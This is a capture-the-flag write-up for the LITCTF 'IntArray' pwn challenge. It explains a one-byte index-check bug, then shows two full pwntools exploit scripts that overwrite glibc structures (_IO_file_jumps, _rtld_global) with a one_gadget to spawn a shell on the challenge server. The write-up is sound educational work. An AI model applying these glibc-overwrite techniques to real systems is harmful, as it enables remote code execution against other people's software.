





# LITCTF - IntArray

Original challenge link: https://lit.lhsmathcs.org/ctfchal

You can as well download challenge files in my repo: [intarray.zip](intarray.zip)

There will be 4 files in zip:
- intarray
- ld-2.31.so
- libc-2.31.so
- libpthread-2.31.so

Download and extract, the file is already patched so we just start!

# 1. Find bug

First, let's check the basic information of binary:

```bash
$ file intarray
intarray: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=b8b5ebe5f2437df765b278c64ae0b64778dedde1, not stripped
```

This is a 64-bit binary without being stripped. Next, we will decompile the file with ida to get the main flow.

The program read the first number as a maximum number and then read a second number in range from `0` to that maximum number. But when it compare the second number with the maximum number, it just compare 1 byte of the second number with the maximum number:



Look at that casting! If we enter the first number with value 255 (hex format is `0xff`) and then we enter the second number with value 256 (hex format is `0x100`), we still can pass the check because `0x00` lower than `0xff`.

Then we will enter a third number and it will tatke the value at `array[<second number>]` add with the third number we've just inputted:



But that array is an array inside a libc range address, we can get that when debug:



After that, we can see null for 2 addresses with the same bug when checking index.

Summary: We can edit the value of an address, which is in range of libc, by adding with the number we input, or offset. Then we can set null for 2 addresses which are also in range of libc address.

# 2. Idea

I solved this challenge with an unintended way by overwriting `_IO_file_jumps + 0x20` with address of one gadget and when program execute `getchar()`, we can get shell easily.

The intended way is to call `abort` and in there, it will execute a function `_dl_addr` which will call to `_rtld_global + 3848` with `_rtld_global` is changable. And when it jump to `_rtld_global + 3848`, r12 is already null, r15 is `_rtld_global` so we can use the last input to set `_rtld_global` to null and set `_IO_file_jumps` of stdout so it will trigger abort and execute `_rtld_global + 3848` with one gadget constraint:

```bash
0xe6aee execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL
```

# 3. Exploit

Just debug and you will get that.

Way 1 (unintended):

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./intarray', checksec=False)

### Idea ##########################################################
# Overwrite _IO_file_jumps+0x20 with one_gadget because getchar() #
# will execute as this flow:                                      #
# getchar() --> _IO_default_uflow --> _IO_file_jumps+0x20         #
#                                                                 #
# When one_gadget is executed, rsi and rdx is null so one_gadget  #
# we use is:                                                      #
# 0xe6af4 execve("/bin/sh", rsi, rdx)                             #
# constraints:                                                    #
#   [rsi] == NULL || rsi == NULL                                  #
#   [rdx] == NULL || rdx == NULL                                  #
###################################################################

if args.LOCAL:
	p = process(exe.path)
else:
	p = remote('litctf.live', 31784)
p.sendlineafter(b'store?', b'256')

# s:      0x7f061b98f6e0
# s[???]: 0x7f061bba44c0           # _IO_file_jumps+0x20
# Value before:  0x7f061ba4aba0
# Value after:   0x7f061ba9daf4    # one gadget
p.sendlineafter(b'index:', f'{272828}'.encode())
p.sendlineafter(b'change:', f'{339796}'.encode())

p.interactive()
```

Way 2 (intended):

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./intarray', checksec=False)

### Idea ############################################################
# Overwrite _rtld_global+3848 with one_gadget because we want to    #
# trigger abort which it's flow is:                                 #
# puts() --> if _IO_file_jumps of stdout not in correct range       #
#        --> _dl_addr --> _rtld_global+3848                         #
#                                                                   #
# When one_gadget is executed, r12 is already null, r15 is          #
# _rtld_global and it's not null but we can set _rtld_global null   #
# so one_gadget we will use is:                                     #
# 0xe6aee execve("/bin/sh", r15, r12)                               #
# constraints:                                                      #
#   [r15] == NULL || r15 == NULL                                    #
#   [r12] == NULL || r12 == NULL                                    #
#####################################################################

if args.LOCAL:
	p = process(exe.path)
else:
	p = remote('litctf.live', 31784)
p.sendlineafter(b'store?', b'255')

### Overwrite "_rtld_global + 3848" with one_gadget because 
### it will be called when it's in _dl_addr
# s:      0x7f9e77ca76e0
# s[???]: 0x7f9e77ef1f68           # _rtld_global + 3848
# Value before:  0x7f9e77cb6fc0
# Value after:   0x7f9e77db5aee    # one gadget
p.sendlineafter(b'index:', f'{300305}'.encode())
p.sendlineafter(b'change:', f'{1043246}'.encode())

### Set null for _rtld_global because it's r15
# s:      0x7f9e77ca76e0
# s[???]: 0x7f9e77ef1060           # _rtld_global
p.sendlineafter(b'(y/N)', b'y')
p.sendlineafter(b'index:', f'{299824}'.encode())

### Set null for _IO_jump_files of stdout because we want to trigger 
### abort
# s:      0x7f9e77ca76e0
# s[???]: 0x7f9e77ebb778           # _IO_file_jumps of stdout
p.sendlineafter(b'(y/N)', b'y')
p.sendlineafter(b'index:', f'{272403}'.encode())

p.interactive()
```

# 4. Get flag





Flag is `LITCTF{1s_17_p0ss1bl3_w1th_l3ss_3d17_0r_cl34r}`